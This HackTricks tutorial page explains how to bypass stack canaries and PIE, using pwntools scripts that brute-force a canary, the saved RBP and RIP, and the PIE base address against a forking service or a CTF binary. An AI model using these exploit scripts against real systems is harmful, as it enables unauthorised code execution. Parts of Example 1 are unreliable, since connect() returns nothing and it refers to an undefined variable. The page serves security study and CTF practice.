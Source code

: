 

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

- Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

- Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**

- **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>


**If you are facing a binary protected by a canary and PIE (Position Independent Executable) you probably need to find a way to bypass them.**

![](<../../.gitbook/assets/image (144).png>)

{% hint style="info" %}
Note that **`checksec`** might not find that a binary is protected by a canary if this was statically compiled and it's not capable to identify the function.\
However, you can manually notice this if you find that a value is saved in the stack at the beginning of a function call and this value is checked before exiting.
{% endhint %}

# Brute force Canary

The best way to bypass a simple canary is if the binary is a program **forking child processes every time you establish a new connection** with it (network service), because every time you connect to it **the same canary will be used**.

Then, the best way to bypass the canary is just to **brute-force it char by char**, and you can figure out if the guessed canary byte was correct checking if the program has crashed or continues its regular flow. In this example the function **brute-forces an 8 Bytes canary (x64)** and distinguish between a correct guessed byte and a bad byte just **checking** if a **response** is sent back by the server (another way in **other situation** could be using a **try/except**):

## Example 1

This example is implemented for 64bits but could be easily implemented for 32 bits.

```python
from pwn import *

def connect():
    r = remote("localhost", 8788)

def get_bf(base):
    canary = ""
    guess = 0x0
    base += canary

    while len(canary) < 8:
        while guess != 0xff:
            r = connect()

            r.recvuntil("Username: ")
            r.send(base + chr(guess))

            if "SOME OUTPUT" in r.clean():
                print "Guessed correct byte:", format(guess, '02x')
                canary += chr(guess)
                base += chr(guess)
                guess = 0x0
                r.close()
                break
            else:
                guess += 1
                r.close()

    print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
    return base
    
canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary
```

## Example 2

This is implemented for 32 bits, but this could be easily changed to 64bits.\
Also note that for this example the **program expected first a byte to indicate the size of the input** and the payload.

```python
from pwn import *

# Here is the function to brute force the canary
def breakCanary():
	known_canary = b""
	test_canary = 0x0
	len_bytes_to_read = 0x21
	
	for j in range(0, 4):
		# Iterate up to 0xff times to brute force all posible values for byte
		for test_canary in range(0xff):
			print(f"\rTrying canary: {known_canary} {test_canary.to_bytes(1, 'little')}", end="")
			
			# Send the current input size
			target.send(len_bytes_to_read.to_bytes(1, "little"))

			# Send this iterations canary
			target.send(b"0"*0x20 + known_canary + test_canary.to_bytes(1, "little"))

			# Scan in the output, determine if we have a correct value
			output = target.recvuntil(b"exit.")
			if b"YUM" in output:
				# If we have a correct value, record the canary value, reset the canary value, and move on
				print(" - next byte is: " + hex(test_canary))
				known_canary = known_canary + test_canary.to_bytes(1, "little")
				len_bytes_to_read += 1
				break

	# Return the canary
	return known_canary

# Start the target process
target = process('./feedme')
#gdb.attach(target)

# Brute force the canary
canary = breakCanary()
log.info(f"The canary is: {canary}")
```

# Print Canary

Another way to bypass the canary is to **print it**.\
Imagine a situation where a **program vulnerable** to stack overflow can execute a **puts** function **pointing** to **part** of the **stack overflow**. The attacker knows that the **first byte of the canary is a null byte** (`\x00`) and the rest of the canary are **random** bytes. Then, the attacker may create an overflow that **overwrites the stack until just the first byte of the canary**.\
Then, the attacker **calls the puts functionalit**y on the middle of the payload which will **print all the canary** (except from the first null byte).\
With this info the attacker can **craft and send a new attack** knowing the canary (in the same program session)

Obviously, this tactic is very **restricted** as the attacker needs to be able to **print** the **content** of his **payload** to **exfiltrate** the **canary** and then be able to create a new payload (in the **same program session**) and **send** the **real buffer overflow**.\
CTF example: [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)

# PIE

In order to bypass the PIE you need to **leak some address**. And if the binary is not leaking any addresses the best to do it is to **brute-force the RBP and RIP saved in the stack** in the vulnerable function.\
For example, if a binary is protected using both a **canary** and **PIE**, you can start brute-forcing the canary, then the **next** 8 Bytes (x64) will be the saved **RBP** and the **next** 8 Bytes will be the saved **RIP.**

To brute-force the RBP and the RIP from the binary you can figure out that a valid guessed byte is correct if the program output something or it just doesn't crash. The **same function** as the provided for brute-forcing the canary can be used to brute-force the RBP and the RIP:

```python
print("Brute-Forcing RBP")
base_canary_rbp = get_bf(base_canary)
RBP = u64(base_canary_rbp[len(base_canary_rbp)-8:])
print("Brute-Forcing RIP")
base_canary_rbp_rip = get_bf(base_canary_rbp)
RIP = u64(base_canary_rbp_rip[len(base_canary_rbp_rip)-8:])
```

## Get base address

The last thing you need to defeat the PIE is to calculate **useful addresses from the leaked** addresses: the **RBP** and the **RIP**.

From the **RBP** you can calculate **where are you writing your shell in the stack**. This can be very useful to know where are you going to write the string _"/bin/sh\x00"_ inside the stack. To calculate the distance between the leaked RBP and your shellcode you can just put a **breakpoint after leaking the RBP** an check **where is your shellcode located**, then, you can calculate the distance between the shellcode and the RBP:

```python
INI_SHELLCODE = RBP - 1152
```

From the **RIP** you can calculate the **base address of the PIE binary** which is what you are going to need to create a **valid ROP chain**.\
To calculate the base address just do `objdump -d vunbinary` and check the disassemble latest addresses:

![](<../../.gitbook/assets/image (145).png>)

In that example you can see that only **1 Byte and a half is needed** to locate all the code, then, the base address in this situation will be the **leaked RIP but finishing on "000"**. For example if you leaked _0x562002970**ecf** _ the base address is _0x562002970**000**_

```python
elf.address = RIP - (RIP & 0xfff)
```


<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

- Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

- Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**

- **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>


